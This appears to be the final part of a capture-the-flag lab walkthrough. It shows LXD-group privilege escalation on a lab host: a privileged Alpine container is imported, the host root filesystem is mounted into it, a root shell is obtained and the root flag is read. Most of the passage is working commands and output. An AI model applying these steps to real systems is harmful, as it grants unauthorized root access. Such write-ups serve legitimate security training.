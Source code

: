 ```console
root@kali:/cynix/lxd-alpine-builder# eval $(ssh-agent)
Agent pid 1072
root@kali:/cynix/lxd-alpine-builder# ssh-add ../id_rsa 
Identity added: ../id_rsa (../id_rsa)
root@kali:/cynix/lxd-alpine-builder# rsync -hP -e "ssh -p 6688" alpine-v3.13-x86_64-20210218_0139.tar.gz ford@172.16.71.130:alpine.tar.gz
```

Import the image.

```console
ford@blume:~$ lxc image import ./alpine.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
```

Run the image.

```console
ford@blume:~$ lxc init myimage testcontainer -c security.privileged=true
Creating testcontainer
```

Mount the host root directory into the container.

```console
ford@blume:~$ lxc config device add testcontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to testcontainer
```

Start and interact with the container.

```console
ford@blume:~$ lxc start testcontainer
ford@blume:~$ lxc exec testcontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
```

At this point you can change the password hash to the root user, add any user to the sudo group or apply any other technique to gain root privileges. 

```console
~ # cd /mnt/root/root/
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
Oh Yeah! Finally Pwned!

Here\'s your root flag:
b0f971eddce7bd007e9f50ca02f5fe11
    ____   __                      __    _  __ ______
   /  _/  / /____  _   __ ___     / /   | |/ // ____/
   / /   / // __ \| | / // _ \   / /    |   // /     
 _/ /   / // /_/ /| |/ //  __/  / /___ /   |/ /___   
/___/  /_/ \____/ |___/ \___/  /_____//_/|_|\____/   
                                                     
https://www.linkedin.com/in/sumit-verma-125576129/
```
